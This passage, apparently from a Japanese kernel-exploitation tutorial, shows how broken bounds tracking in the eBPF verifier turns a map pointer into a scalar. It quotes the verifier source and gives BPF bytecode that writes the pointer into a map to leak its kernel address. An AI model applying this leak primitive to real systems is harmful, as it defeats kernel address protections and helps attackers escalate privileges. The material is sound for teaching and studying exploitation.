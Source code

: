 ```c
	s64 smin_val = off_reg->smin_value, smax_val = off_reg->smax_value,
	    smin_ptr = ptr_reg->smin_value, smax_ptr = ptr_reg->smax_value;
	u64 umin_val = off_reg->umin_value, umax_val = off_reg->umax_value,
	    umin_ptr = ptr_reg->umin_value, umax_ptr = ptr_reg->umax_value;

...

	if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
	    smin_val > smax_val || umin_val > umax_val) {
		/* Taint dst register if offset had invalid bounds derived from
		 * e.g. dead branches.
		 */
		__mark_reg_unknown(env, dst_reg);
		return 0;
	}

    ...
```
上記のコードを読むと、今回のようにスカラー値側の追跡が壊れているケースでは、演算結果を`__mark_reg_unknown`で不明な値にしています。
つまり、追跡を壊したレジスタとポインタを加算すると、結果はスカラー値として扱われます。スカラー値はBPFマップに書き込めるので、アドレスリークが可能です。さっそく`map_lookup_elem`で取得したBPFマップのポインタをリークしてみましょう。
先ほど`s32_min_value`などの推測を壊しましたが、上記コードでは`smin_val`など64ビットレジスタが壊れている必要があります。32ビット値を64ビット値に拡張するには、x86-64と同じように、`BPF_MOV32_REG`を使って32ビットのレジスタにコピーすれば良いです。
```c
...
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0)
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R0 --> scalar
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_1),

    // スカラー値となったポインタを保存
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_0, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem
```

次のようにBPFマップのアドレスがリークできていれば成功です。R1には1が入っていたので、加算により実際よりもアドレスが1ずれていることに注意してください。

<center>
  <img src="img/addrleak.png" alt="マップアドレスのリーク" style="width:640px;">
</center>

このアドレスを見ると、正しく配列の先頭要素（リークしたデータ）が入っています。

<center>
  <img src="img/gdb_map.png" alt="リークしたアドレスの周辺" style="width:600px;">
</center>
